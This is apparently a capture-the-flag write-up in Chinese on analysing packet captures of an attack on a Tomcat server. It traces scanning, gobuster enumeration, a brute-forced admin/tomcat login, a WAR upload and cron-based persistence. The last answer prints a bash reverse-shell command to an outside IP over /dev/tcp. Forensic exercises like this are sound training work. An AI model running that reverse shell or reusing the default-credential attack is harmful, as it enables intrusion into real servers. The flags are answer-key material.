


# 第六章 流量特征分析 - 常见攻击事件 tomcat

## 1

> 在 web 服务器上发现的可疑活动, 流量分析会显示很多请求, 这表明存在恶意的扫描行为, 通过分析扫描的行为后提交攻击者 IP flag 格式：flag\{ip\}，如：flag\{127.0.0.1\}

在流量中可以发现大量的端口扫描行为



```flag
flag{14.0.0.120}
```

## 2

> 找到攻击者 IP 后请通过技术手段确定其所在地址 flag 格式: flag\{城市英文小写 \}

直接查看数据库即可，例如 [14.0.0.120 IP Address Geolocation Lookup Demo | IP2Location](https://www.ip2location.com/demo/14.0.0.120)

```flag
flag{guangzhou}
```

## 3

> 哪一个端口提供对 web 服务器管理面板的访问？ flag 格式：flag\{2222\}

使用过滤器 `frame.number >= 19949` 筛选掉端口爆破的数据包


找到 `/admin-console` 这个路由的数据包，显示其目标端口为 `8080`

```flag
flag{8080}
```

## 4

> 经过前面对攻击者行为的分析后, 攻击者运用的工具是？ flag 格式：flag\{名称 \}

查看 HTTP 请求的请求头

```plaintext
GET /admin-console HTTP/1.1
Host: 10.0.0.112:8080
User-Agent: gobuster/3.6
Accept-Encoding: gzip
```

```flag
flag{gobuster}
```

## 5

> 攻击者拿到特定目录的线索后, 想要通过暴力破解的方式登录, 请通过分析流量找到攻击者登录成功的用户名和密码？ flag 格式：flag\{root-123\}

定位到登陆尝试的部分


定位到最后一次登陆成功的流量



```flag
flag{admin-tomcat}
```

## 6

> 攻击者登录成功后, 先要建立反弹 shell, 请分析流量提交恶意文件的名称？ flag 格式：flag\{114514.txt\}

在流量中发现了上传 `war` 包的行为


```flag
flag{JXQOZY.war}
```

## 7

> 攻击者想要维持提权成功后的登录, 请分析流量后提交关键的信息？ flag 提示, 某种任务里的信息

跟踪后续的 TCP 流量，可以发现


很明显的基于 Cronjob 实现的反弹 shell

```flag
flag{/bin/bash -c 'bash -i>& /dev/tcp/14.0.0.120/443 0>&1'}
```
